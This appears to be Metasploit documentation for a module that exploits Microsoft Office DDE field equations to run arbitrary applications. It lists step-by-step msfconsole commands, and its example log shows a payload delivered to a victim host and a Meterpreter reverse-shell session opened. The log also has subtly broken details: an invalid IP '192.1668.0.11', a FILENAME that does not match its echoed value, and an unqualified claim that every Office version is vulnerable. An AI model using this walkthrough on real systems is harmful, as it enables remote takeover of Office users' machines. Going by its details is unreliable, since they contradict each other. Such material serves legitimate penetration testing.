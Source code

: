 
Module abuses a feature in MS Field Equations that allow an user to execute an arbitrary application.

## Vulnerable Application
All Microsoft Office versions

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/fileformat/office_dde_delivery`
3. Do: `set PAYLOAD [PAYLOAD]`
4. Do: `run`

## Options
### FILENAME
Filename to output & if injecting a file, the file to inject

### FOLDER_PATH
Path to filename to inject


## Example

```
msf > use exploit/windows/fileformat/office_dde_delivery
msf exploit(office_dde_delivery) > set FILENAME msf.rtf
FILENAME => /home/mumbai/file.rtf
msf exploit(office_dde_delivery) > set LHOST ens3
LHOST => ens3
msf exploit(office_dde_delivery) > set LPORT 35116
LPORT => 35116
msf exploit(office_dde_delivery) > run
[*] Using URL: http://0.0.0.0:8080/DGADAcDZ
[*] Local IP: http://192.1668.0.11:8080/DGADAcDZ
[*] Server started.
[*] Handling request for .sct from 192.168.0.24
[*] Delivering payload to 192.168.0.24...
[*] Sending stage (205379 bytes) to 192.168.0.24
[*] Meterpreter session 1 opened (192.168.0.11:35116 -> 192.168.0.24:52217)

meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```
